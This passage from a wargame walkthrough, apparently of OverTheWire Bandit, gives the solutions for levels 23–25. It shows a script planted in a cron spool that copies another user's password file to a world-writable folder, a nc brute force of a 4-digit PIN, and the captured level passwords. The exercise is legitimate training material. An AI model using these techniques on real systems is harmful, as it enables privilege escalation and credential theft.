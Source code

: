 Write shell script
```
mktemp -d
/tmp/tmp.kMfwHm3my7
vi bandit24_pass.sh
```
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.kMfwHm3my7/password
exit 0     
```
```
chmod 777 bandit24_pass.sh 
chmod 777 /tmp/tmp.kMfwHm3my7
touch password
chmod 777 password 
cp bandit24_pass.sh /var/spool/bandit24/foo/
```
Wait for 1 minute

```
cat password 
```
`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`


## Level 24→ Level 25

Brute force
```
mktemp -d 
/tmp/tmp.hAq26uTWnY
cd /tmp/tmp.hAq26uTWnY
vi brute.sh
```
```
#!/bin/bash

bandit24=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar                   

for i in {0000..9999}
    do
        echo $bandit24 $i >> list.txt
    done

```
```
cat list.txt | nc localhost 30002
```
`p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`



## Level 25→ Level 26
